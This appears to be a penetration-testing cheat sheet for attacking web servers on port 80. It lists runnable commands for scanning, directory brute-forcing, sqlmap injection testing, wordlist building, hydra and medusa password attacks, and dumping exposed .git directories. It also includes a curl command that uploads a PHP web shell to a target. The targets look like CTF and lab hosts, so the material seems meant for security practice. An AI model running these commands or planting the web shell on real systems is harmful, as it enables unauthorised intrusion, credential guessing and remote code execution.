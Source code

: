 ## port 80 (HTTP)

### Enumeratng port 80

```bash 
nikto -h http://192.168.1.10/
nikto -host http://SERVER_IP/ -C all -output Apache.html -Format HTML 
curl -v -X PUT -d '<?php shell_exec($_GET["cmd"]); ?>' http://192.168.1.10/shell.php
dirb http://192.168.56.1 -r -o dirb.txt
sqlmap -u http://192.168.1.10/ --crawl=5 --dbms=mysql
cewl http://192.168.1.10/ -m 6 -w special_wordlist.txt
cewl http://runner.htb/ | grep -v CeWL > custom-wordlist.tx # For creating custom wordlist
medusa -h 192.168.1.10 -u admin -P  wordlist.txt -M http -m DIR:/admin -T 10
hydra -l axel -P /usr/share/wordlists/rockyou.txt cat.htb http-get-form "/join.php:loginUsername=axel&loginPassword=^PASS^&loginForm=Login:Incorrect username or password" -I -t 54 -v
wfuzz -u http://10.13.37.11:5000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
nmap -p 80 -n -v -sV -Pn --script http-backup-finder,http-config-backup,http-errors,http-headers,http-iis-webdav-vuln,http-internal-ip-disclosure,http-methods,http-php-version,http-qnap-nas-info,http-robots.txt,http-shellshock,http-slowloris-check,http-waf-detect,http-vuln* 192.168.1.10
gobuster dir -u http://<address>/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -s '200,204,301,302,307,403,500' -e -x txt,php,html
nmap -p 80 --script=http-backup-finder --script-args http-backup-finder.url=/web-serveur/ch11/index.php challenge01.root-me.org
hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
dirsearch --url https://target.com/ -e .* --full-url -x 404 --crawl --random-agent

```
# Index of / found

    wget --no-check-certificate -r -np -R "index.html*" -e robots=off https://domain.com/path_index_of # Disable certificate validation

# Find urls links in website

```bash
sudo apt install gospider -y
gospider -s http://linkvortex.htb/ -u web -t 10
curl -Ls URL |  grep -oP 'href="\K[^"]+'
curl -f -L URL | grep -Eo '"(http|https)://[a-zA-Z0-9#~.*,/!?=+&_%:-]*"'
```

# .Git Directory Found in web

```bash
wget -r -np -R "index.html*" -e robots=off http://dev.linkvortex.htb/.git/ # If 403, Then use githacker or gittools => gitdumper

# Gittools
## Dumping files from .git web dir # Bypass 403
./Dumper/gitdumper.sh https://ideotwebsite/.git/ output_folder

## Extracts a dumped .git dir
./Extractot/extractor.sh source_folder_.git_inside /dest_output_folder
```
